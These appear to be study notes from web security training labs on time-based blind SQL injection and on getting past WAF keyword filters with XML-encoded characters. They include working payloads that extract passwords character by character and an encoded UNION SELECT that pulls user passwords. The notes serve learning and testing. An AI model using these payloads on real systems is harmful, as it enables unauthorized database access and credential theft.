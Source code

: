 The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true: 
```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```
- The first of these inputs does not trigger a delay, because the condition 1=2 is false.
- The second input triggers a delay of 10 seconds, because the condition 1=1 is true.

Using this technique, we can retrieve data by testing one character at a time: 
```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

Example of a solved lab:
```
TrackingId=x'||pg_sleep(10)--
```

## SQL injection in different contexts
You can perform SQL injection attacks using any controllable input that is processed as a SQL query by the application. For example, some websites take input in JSON or XML format and use this to query the database.

These different formats may provide different ways for you to obfuscate attacks that are otherwise blocked due to WAFs and other defense mechanisms. Weak implementations often look for common SQL injection keywords within the request, so you may be able to bypass these filters by encoding or escaping characters in the prohibited keywords. For example, the following XML-based SQL injection uses an XML escape sequence to encode the S character in SELECT: 
```
<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>
```
This will be decoded server-side before being passed to the SQL interpreter. 

Lab: SQL injection with filter bypass via XML encoding
> Note
> 
> ' is not always needed in sqli

Lab solution:
1 &#x41;ND 1=2 &#x55;NION &#x53;ELECT password FROM users &#x2D;&#x2D;

